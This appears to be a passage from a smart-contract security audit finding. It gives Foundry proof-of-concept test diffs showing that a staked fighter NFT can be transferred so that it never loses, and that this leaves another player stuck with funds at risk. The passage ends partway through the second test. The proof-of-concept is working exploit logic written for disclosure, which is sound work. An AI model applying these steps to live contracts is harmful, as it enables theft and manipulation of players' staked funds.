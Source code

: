 ```diff
+        _rankedBattleContract.updateBattleRecord(tokenId, 0, 0, 1500, true);
+        // The player transfers the fighter to other player
+        vm.prank(address(player));
+        _fighterFarmContract.safeTransferFrom(player, otherPlayer, tokenId, "");
+        assertEq(_fighterFarmContract.ownerOf(tokenId), otherPlayer);
+        // The fighter can't lose
+        vm.prank(address(_GAME_SERVER_ADDRESS));
+        vm.expectRevert();
+        _rankedBattleContract.updateBattleRecord(tokenId, 0, 2, 1500, true);
+        // The fighter can only win: it's unstoppable!
+        vm.prank(address(_GAME_SERVER_ADDRESS));
+        _rankedBattleContract.updateBattleRecord(tokenId, 0, 0, 1500, true);
+    }
+
     /*//////////////////////////////////////////////////////////////
                                HELPERS
     //////////////////////////////////////////////////////////////*/
```
Place the PoC into test/RankedBattle.t.sol, and execute with
```shell
forge test --match-test testExploitTransferStakedFighterAndPlay
```
Impact 2: another fighter can't win, game server unable to commit
```diff
diff --git a/test/RankedBattle.t.sol b/test/RankedBattle.t.sol
index 6c5a1d7..196e3a0 100644
--- a/test/RankedBattle.t.sol
+++ b/test/RankedBattle.t.sol
@@ -465,6 +465,62 @@ contract RankedBattleTest is Test {
         assertEq(unclaimedNRN, 5000 * 10 ** 18);
     }
 
+/// @notice Prepare two players and two fighters
+function preparePlayersAndFighters() public returns (address, address, uint8, uint8) {
+    address player1 = vm.addr(3);
+    _mintFromMergingPool(player1);
+    uint8 fighter1 = 0;
+    _fundUserWith4kNeuronByTreasury(player1);
+    address player2 = vm.addr(4);
+    _mintFromMergingPool(player2);
+    uint8 fighter2 = 1;
+    _fundUserWith4kNeuronByTreasury(player2);
+    return (player1, player2, fighter1, fighter2);
+}
+
+/// @notice An exploit demonstrating that it's possible to transfer a fighter with funds at stake
+/// @notice After transferring the fighter, it wins the battle, 
+/// @notice and the second player can't exit from the stake-at-risk zone anymore.
+function testExploitTransferStakeAtRiskFighterAndSpoilOtherPlayer() public {
+    (address player1, address player2, uint8 fighter1, uint8 fighter2) = 
+        preparePlayersAndFighters();
+    vm.prank(player1);
+    _rankedBattleContract.stakeNRN(1_000 * 10 **18, fighter1);        
+    vm.prank(player2);
+    _rankedBattleContract.stakeNRN(1_000 * 10 **18, fighter2);        
+    // Fighter1 loses a battle
+    vm.prank(address(_GAME_SERVER_ADDRESS));
+    _rankedBattleContract.updateBattleRecord(fighter1, 0, 2, 1500, true);
+    assertEq(_rankedBattleContract.amountStaked(fighter1), 999 * 10 ** 18);
+    // Fighter2 loses a battle
+    vm.prank(address(_GAME_SERVER_ADDRESS));
+    _rankedBattleContract.updateBattleRecord(fighter2, 0, 2, 1500, true);
+    assertEq(_rankedBattleContract.amountStaked(fighter2), 999 * 10 ** 18);
+
```